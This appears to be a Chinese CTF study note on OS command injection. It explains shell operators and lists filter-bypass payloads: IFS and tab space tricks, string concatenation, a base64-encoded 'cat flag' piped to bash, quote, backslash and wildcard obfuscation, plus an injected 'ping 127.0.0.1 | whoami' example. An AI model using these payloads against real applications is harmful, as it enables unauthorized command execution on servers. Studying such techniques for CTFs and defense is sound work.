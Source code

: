`||` : 取决于`||`前的命令正确与否：正确 =》只执行前面的语句；错误 =》执行后面的语句

![](https://i.loli.net/2021/02/14/Lnb3di6JRCX1ewO.png)

`&`：`&`前后的命令都执行，无论前者是否正确

![](https://i.loli.net/2021/02/14/YkzPoEb6XSRrUiQ.png)

`&&`：`&&`前命令为假则都不执行，为真则都执行

![](https://i.loli.net/2021/02/14/5a1YThQz7Kj3GpN.png)



bypass：

过滤空格bypass：

```
1.{IFS}
2.<>
3.PHP环境下%09
```

黑名单bypass：

```
拼接：a=c;b=at;c=fl;d=ag;$a$b $c$d
编码：Y2F0IGZsYWc= 即 cat flag
	echo "Y2F0IGZsYWc="|base64 -d|bash
	`echo "Y2F0IGZsYWc="|base64 -d`
单、双引号：c""at fl''ag
反斜线：c\at fl\ag
$1、$2...以及$@:c$1at fl$@ag
内联执行绕过：`命令`和$(命令)都是执行命令的方式
			echo "xx`pwd`"
			echo "xx$(pwd)"
通配符绕过：以下指令等同 /bin/cat flag
			/???/?[a][t] ?''?''?''?''
			/???/?at flag
			/???/?at ????
			/???/?[a]''[t] ?''?''?''?''
```

更多的内容看这里=>[CTF下的命令执行漏洞利用及绕过方法总结](https://www.cnblogs.com/SpouseLJ/p/13223967.html)

### exec"ping"

```
ping 127.0.0.1 | whoami
```

![](https://i.loli.net/2021/02/14/M9k8h3ZyaPz5DBN.png)

### exec"evel"

eval()函数危害极大，甚至可以直接拿shell
